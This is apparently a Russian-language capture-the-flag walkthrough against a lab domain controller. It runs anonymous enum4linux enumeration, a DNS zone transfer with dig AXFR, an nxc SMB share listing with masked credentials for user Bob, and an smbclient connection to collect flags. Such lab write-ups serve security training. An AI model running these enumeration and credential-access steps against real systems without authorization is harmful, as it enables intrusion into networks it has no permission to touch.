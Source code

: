 Для сбора анонимной информации запустим 
```
enum4linux -a -u '' -p '' 10.10.0.38

```
В выводе получим информация что пользователь Bob изменил пароль, а также узнаем название домена
Для получения первого флага выполним команду
```
dig AXFR corp.local @10.10.0.38
```
В TXT записи одного из доменов будет флаг
Проверим smb используя ранее полученные креды
```
nxc smb  10.10.0.38 -u 'Bob' -p '******' -d corp --shares

```
Видим необходимую нам папку. Подключимся к ней и заберем флаг
```
smbclient //10.10.0.38/BobsFolder -U 'corp/Bob%*****'
```
